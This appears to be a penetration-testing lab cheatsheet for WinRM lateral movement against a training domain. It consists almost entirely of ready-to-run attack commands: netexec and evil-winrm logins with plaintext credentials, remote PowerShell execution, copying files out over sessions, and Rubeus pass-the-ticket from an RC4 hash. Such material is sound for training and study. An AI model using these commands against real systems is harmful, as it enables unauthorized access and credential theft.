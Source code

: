 ## Lateral movement winrm command cheatsheet. 


- netexec 

` netexec winrm 10.129.229.244 -u frewdy -p Kiosko093 ` 

![Commands](/Winrm-cheatsheet/images/netexec.png) 

- RDP Remote Resktop Protocol 

` xfreerdp /v:10.129.229.244 /u:Helen /p:RedRiot88 /dynamic-resolution /drive:tmp,/home/kali/Tools /d:inlanefreight.local -clipboard /cert:ignore -wallpaper -themes +auto-reconnect ` 


- Powershell Commands

![Commands](/Winrm-cheatsheet/images/powershell-1.png) 

```
PS C:\Tools> Invoke-Command -ComputerName srv02 -ScriptBlock { hostname;whoami } 

PS C:\Tools> $username = "INLANEFREIGHT\Helen"
PS C:\Tools> $password = "RedRiot88"
PS C:\Tools> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Tools> $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
PS C:\Tools> Invoke-Command -ComputerName 172.20.0.52 -Credential $credential -ScriptBlock { whoami; hostname } 
PS C:\Tools> winrs -r:srv02 "powershell -c whoami;hostname" 
PS C:\Tools> winrs /remote:srv02 /username:helen /password:RedRiot88 "powershell -c whoami;hostname"


```

Note: If we use the IP instead of the computer name, we must use explicit credentials, or alternatively, we can use the flag -Authentication Negotiate instead of providing explicit credentials. 


![Commands](/Winrm-cheatsheet/images/pwsh-1.png) 


- Powershell Copy Files 

```

	PS C:\Tools> $sessionSRV02 = New-PSSession -ComputerName SRV02 -Credential $credential 
	PS C:\Tools> Copy-Item -ToSession $sessionSRV02 -Path 'C:\Users\helen\Desktop\Sample.txt' -Destination 'C:\Users\helen\Desktop\Sample.txt' -Verbose 
	PS C:\Tools> Copy-Item -FromSession $sessionSRV02 -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\Users\helen\Desktop\host.txt' -Verbose 

```


![Commands](/Winrm-cheatsheet/images/pwsh-2.png) 


- Interactive Shell 

` PS C:\Tools> Enter-PSSession $sessionSRV02` 


![Commands](/Winrm-cheatsheet/images/pwsh-3.png) 


- Rubeus & WinRM 

![Commands](/Winrm-cheatsheet/images/rub-1.png) 

![Commands](/Winrm-cheatsheet/images/rub-2.png) 

![Commands](/Winrm-cheatsheet/images/rub-3.png) 

![Commands](/Winrm-cheatsheet/images/rub-4.png) 

![Commands](/Winrm-cheatsheet/images/rub-5.png) 


```

PS C:\Tools>  .\Rubeus.exe asktgt /user:leonvqz /rc4:3223DS033D176ABAAF6BEAA0AA681400 /nowrap 
PS C:\Tools> .\Rubeus.exe createnetonly /program:powershell.exe /show
PS C:\Tools> .\Rubeus.exe ptt /ticket:doIFsjCCBa6gAwIBBaEDAgEWooIEszCCBK9h...SNIP... 
PS C:\Tools> Enter-PSSession SRV02.inlanefreight.local -Authentication Negotiate 
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname 
PS C:\Tools> Set-Item WSMan:localhost\client\trustedhosts -value * -Force 

```

![Commands](/Winrm-cheatsheet/images/evil.png) 

### Lateral Movement from Linux 


```

$ netexec winrm 10.129.229.244 -u frewdy -p Kiosko093 -x "ipconfig" 

$ evil-winrm -i 10.129.229.244 -u 'inlanefreight.local\frewdy' -p Kiosko093 
$ evil-winrm -i 10.129.229.244 -u 'inlanefreight.local\frewdy' -p Kiosko093 -s '/home/kali/Tools/' 
$ PowerView.ps1 
$ menu

```

- PowerShell over the web

https://10.129.229.244/pswa/en-US/logon.aspx

![Commands](/Winrm-cheatsheet/images/web.png) 
